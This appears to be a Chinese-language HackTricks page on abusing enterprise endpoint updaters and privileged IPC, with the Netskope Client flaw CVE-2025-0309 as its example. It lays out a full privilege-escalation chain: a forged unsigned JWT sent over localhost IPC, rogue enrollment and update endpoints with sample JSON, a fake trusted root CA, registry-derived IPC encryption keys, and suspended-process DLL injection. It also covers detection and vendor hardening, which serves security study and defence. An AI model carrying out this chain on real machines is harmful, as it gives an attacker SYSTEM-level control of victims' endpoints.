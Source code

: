 # 滥用企业自动更新器和特权 IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

本页概述了一类在企业端点代理和更新器中发现的 Windows 本地提权链，这些组件暴露出低摩擦的 IPC 接口和特权更新流程。一个代表性示例是 Netskope Client for Windows < R129 (CVE-2025-0309)，其中低权限用户可以强制将注册指向攻击者控制的服务器，然后投递一个恶意 MSI，由 SYSTEM 服务安装。

可以复用到类似产品的关键思路：
- 滥用特权服务的 localhost IPC，强制重新注册或重新配置到攻击者服务器。
- 实现厂商的 update endpoints，部署伪造的 Trusted Root CA，并将 updater 指向恶意的“签名”包。
- 绕过薄弱的签名者校验（CN allow‑lists）、可选的 digest 标志和宽松的 MSI 属性。
- 如果 IPC 是“encrypted”，可从注册表中可被所有人读取的机器标识派生 key/IV。
- 如果服务按 image path/process name 限制调用者，注入到被允许的进程或以 suspended 启动一个进程，然后通过最小的 thread‑context patch 引导你的 DLL。

---
## 1) 通过 localhost IPC 强制注册到攻击者服务器

许多代理都会随附一个以用户模式运行的 UI 进程，该进程通过 localhost TCP 使用 JSON 与运行在 SYSTEM 的服务通信。

在 Netskope 中观察到：
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

利用流程：
1) 构造一个 JWT enrollment token，其 claims 控制后端主机（例如 AddonUrl）。使用 alg=None，因此不需要签名。
2) 发送调用 provisioning 命令的 IPC 消息，包含你的 JWT 和 tenant name：
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) 服务开始访问你的恶意服务器以进行 enrollment/config，例如：
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- 如果调用者验证是基于 path/name‑based，则应从一个被允许的厂商二进制程序发起请求（见 §4）。

---
## 2) Hijacking the update channel to run code as SYSTEM

一旦客户端与您的服务器通信，实现预期的 endpoints 并引导它到攻击者的 MSI。典型流程：

1) /v2/config/org/clientconfig → 返回 JSON 配置，包含非常短的 updater 间隔，例如：
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → 返回一个 PEM CA certificate。该服务将其安装到 Local Machine Trusted Root store。
3) /v2/checkupdate → 提供指向恶意 MSI 的元数据和一个伪造的版本。

绕过野外常见检查：
- Signer CN allow‑list：服务可能只检查 Subject CN 是否等于 “netSkope Inc” 或 “Netskope, Inc.”。你的伪造 CA 可以签发一个具有该 CN 的 leaf 并签署 MSI。
- CERT_DIGEST property：包含一个名为 CERT_DIGEST 的良性 MSI 属性。安装时不强制执行。
- Optional digest enforcement：配置标志（例如 check_msi_digest=false）会禁用额外的密码学验证。

结果：SYSTEM 服务会从
C:\ProgramData\Netskope\stAgent\data\*.msi
安装你的 MSI，并以 NT AUTHORITY\SYSTEM 身份执行任意代码。

---
## 3) Forging encrypted IPC requests (when present)

从 R127 开始，Netskope 将 IPC JSON 包装在看起来像 Base64 的 encryptData 字段中。逆向分析显示使用 AES，key/IV 来源于任何用户都可读取的注册表值：
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

攻击者可以重现加密并从标准用户发送有效的加密命令。一般建议：如果代理突然对其 IPC “加密”，检查 HKLM 下的 device IDs、product GUIDs、install IDs 等作为密钥材料。

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

一些服务尝试通过解析 TCP 连接的 PID 并将映像路径/名称与位于 Program Files 下的允许列表厂商二进制（例如 stagentui.exe、bwansvc.exe、epdlp.exe）进行比对来认证对端。

两个实用的绕过方法：
- 对一个允许列表进程（例如 nsdiag.exe）进行 DLL injection，并从其内部代理 IPC。
- 以挂起态启动一个允许列表二进制，并在不使用 CreateRemoteThread 的情况下引导你的代理 DLL（见 §5），以满足驱动强制的防篡改规则。

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

产品常配备一个 minifilter/OB callbacks driver（例如 Stadrv）以从受保护进程的句柄中剥离危险权限：
- Process：移除 PROCESS_TERMINATE、PROCESS_CREATE_THREAD、PROCESS_VM_READ、PROCESS_DUP_HANDLE、PROCESS_SUSPEND_RESUME
- Thread：限制为 THREAD_GET_CONTEXT、THREAD_QUERY_LIMITED_INFORMATION、THREAD_RESUME、SYNCHRONIZE

一个可靠的用户模式加载器，遵守这些限制的步骤：
1) CreateProcess 启动一个厂商二进制并使用 CREATE_SUSPENDED。
2) 获取你仍被允许的句柄：对进程为 PROCESS_VM_WRITE | PROCESS_VM_OPERATION，对线程为具有 THREAD_GET_CONTEXT/THREAD_SET_CONTEXT（或如果在已知 RIP 处打补丁，仅 THREAD_RESUME）。
3) 覆盖 ntdll!NtContinue（或其他早期、保证映射的 thunk）为一个小的存根，该存根对你的 DLL 路径调用 LoadLibraryW，然后跳回原处。
4) ResumeThread 触发你在进程内的存根，加载你的 DLL。

因为你从未对一个已经受保护的进程使用 PROCESS_CREATE_THREAD 或 PROCESS_SUSPEND_RESUME（你是创建它的），驱动的策略被满足。

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) 自动化生成 rogue CA、恶意 MSI 签名，并提供所需端点：/v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate。
- UpSkope 是一个自定义 IPC 客户端，可构造任意（可选 AES‑encrypted）IPC 消息，并包含挂起进程注入以使调用源自允许列表二进制。

---
## 7) Detection opportunities (blue team)
- 监控对 Local Machine Trusted Root 的添加。Sysmon + registry‑mod 事件（参见 SpecterOps guidance）效果良好。
- 标记由 agent 的 service 从类似 C:\ProgramData\<vendor>\<agent>\data\*.msi 路径发起的 MSI 执行。
- 检查 agent 日志中异常的 enrollment hosts/tenants，例如：C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – 查找 addonUrl / tenant 异常和 provisioning msg 148。
- 对非预期签名二进制或来自异常子进程树的 localhost IPC 客户端发出告警。

---
## Hardening tips for vendors
- 将 enrollment/update 主机绑定到严格的 allow‑list；在 clientcode 中拒绝不受信任的域名。
- 使用 OS 原语（ALPC security、named‑pipe SIDs）对 IPC 对等方进行认证，而不是依赖映像路径/名称检查。
- 将秘密材料保存在不可全局读取的 HKLM 之外；如果必须对 IPC 加密，应从受保护的密钥派生或通过认证通道协商。
- 将 updater 视为供应链面：要求完整链至受信任的 CA（由你控制），使用 pinned keys 验证包签名，并在配置禁用验证时 fail closed。

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}

